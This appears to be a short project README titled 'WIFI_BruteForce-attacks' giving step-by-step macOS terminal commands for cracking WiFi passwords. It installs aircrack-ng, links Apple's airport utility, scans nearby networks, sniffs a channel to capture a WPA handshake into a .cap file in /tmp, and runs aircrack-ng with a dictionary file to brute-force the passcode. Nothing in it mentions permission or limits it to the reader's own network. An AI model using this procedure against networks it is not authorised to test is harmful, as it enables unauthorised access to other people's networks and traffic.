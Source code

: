 # WIFI_BruteForce-attacks

Using java to create passcode dictionary.
And use "aircrack" to brute force WIFI passcode.

My version:
OS Requird: MAC 
Install "MacPorts" on your labtops.
Open Terminal enter following commands:

Install aircrack:
- sudo port install aircrack-ng

Create aircrack link:
- sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport

Search Local WIFI:
- airport -s

Catch WIFI listener package (XX stand for channel number):
- sudo airport en0 sniff XX 

Exit WIFI listener:
- "CONTROL + C"

After it, go to finder "GO TO FOLDER"
- /tmp

There will be *.cap file was create. 

Move the *.cap file and your WIFI passcode *.txt file to a same folder.

Enter following command to check if Encryption (1 handshake) is mean catch passcode successed,
if Encryption (0 handshake) is mean catch passcode unsuccessed.

- aircrack-ng -w *.txt *.cap

If Encryption contain (1 handshake), enter the number of the line, and then start brute force WIFI passcode.
